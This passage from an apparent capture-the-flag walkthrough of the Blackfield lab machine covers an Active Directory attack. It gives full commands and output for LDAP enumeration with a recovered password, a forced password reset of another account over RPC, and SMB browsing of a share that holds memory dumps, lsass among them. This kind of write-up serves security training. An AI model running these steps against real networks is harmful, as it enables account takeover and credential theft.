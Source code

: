 Since we have a set of creds and we can authenticate over ldap we can get the information and pass it to bloodhound.

```bash
nxc ldap 10.10.10.192 -u support -p '#00^BlackKnight' --bloodhound -c all --dns-server 10.10.10.192
LDAP        10.10.10.192    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
LDAP        10.10.10.192    389    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
LDAP        10.10.10.192    389    DC01             Resolved collection methods: session, container, localadmin, dcom, acl, rdp, objectprops, trusts, psremote, group
LDAP        10.10.10.192    389    DC01             Done in 00M 36S
LDAP        10.10.10.192    389    DC01             Compressing output into /root/.nxc/logs/DC01_10.10.10.192_2025-09-21_070207_bloodhound.zip
```

After downloading the bloodhound data and uploading it to bloodhound, we have a outbound control over the user audit2020 of entity force password change

<img width="1589" height="432" alt="image" src="https://github.com/user-attachments/assets/544001c9-15ba-484b-b3fe-bc8a4288a58b" />


We can use this and change the passoword for the user audit2020.

```bash
net rpc password "AUDIT2020" "newP@ssword2022" -U "BLACKFIELD.local"/"support"%'#00^BlackKnight' -S "DC01.BLACKFIELD.local"
```

## Shell as svc_backup

Now we have the creds for the user audit2020 let’s connect to the forenci share and get some files which could be helpful 

```bash
smbclient //10.10.10.192/forensic -U audit2020
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                5102079 blocks of size 4096. 1690615 blocks available
smb: \> cd memory_analysis
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020
```
